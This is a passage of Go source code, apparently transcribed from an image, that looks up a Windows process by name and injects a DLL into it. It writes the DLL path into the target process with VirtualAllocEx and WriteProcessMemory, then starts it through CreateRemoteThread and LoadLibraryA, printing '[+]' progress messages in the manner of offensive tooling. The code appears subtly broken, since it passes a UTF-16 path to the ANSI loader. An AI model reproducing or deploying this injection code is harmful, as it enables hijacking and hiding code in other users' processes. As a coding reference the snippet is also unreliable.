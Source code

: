 ```go  
		return 0, fmt.Errorf("Failed to retrieve first process entry. Error: %d", syscall.GetLastError())
	}

	for {
		exeFile := windows.UTF16ToString(entry.ExeFile[:])
		if strings.EqualFold(exeFile, processName) {
			return entry.ProcessID, nil
		}

		ret, _, _ := process32NextW.Call(snapshot, uintptr(unsafe.Pointer(&entry)))
		if ret == 0 {
			break
		}
	}

	return 0, fmt.Errorf("Process not found: %s", processName)
}

func injectDLL(processHandle windows.Handle, dllPath string) error {
	dllPathPtr, err := windows.UTF16PtrFromString(dllPath)
	if err != nil {
		return err
	}

	remoteAlloc, _, err := virtualAllocEx.Call(
		uintptr(processHandle),
		0,
		uintptr(len(dllPath)*2),
		uintptr(MEM_RESERVE|MEM_COMMIT),
		uintptr(windows.PAGE_READWRITE),
	)
	if remoteAlloc == 0 {
		return fmt.Errorf("VirtualAllocEx failed: %v", err)
	}

	fmt.Println("[+] VirtualAllocEx...")
	fmt.Println("[+] Allocating memory at:", remoteAlloc)

	bytesWritten := uint(0)
	_, _, err = writeProcessMemory.Call(
		uintptr(processHandle),
		remoteAlloc,
		uintptr(unsafe.Pointer(dllPathPtr)),
		uintptr(len(dllPath)*2),
		uintptr(unsafe.Pointer(&bytesWritten)),
	)
	if bytesWritten == 0 {
		return fmt.Errorf("WriteProcessMemory failed: %v", err)
	}
	fmt.Println("[+] Bytes written:", bytesWritten)

	threadHandle, _, err := createRemoteThread.Call(
		uintptr(processHandle),
		0,
		0,
		uintptr(loadLibraryA.Addr()),
		remoteAlloc,
		0,
		0,
	)
	if threadHandle == 0 {
		return fmt.Errorf("CreateRemoteThread failed: %v", err)
```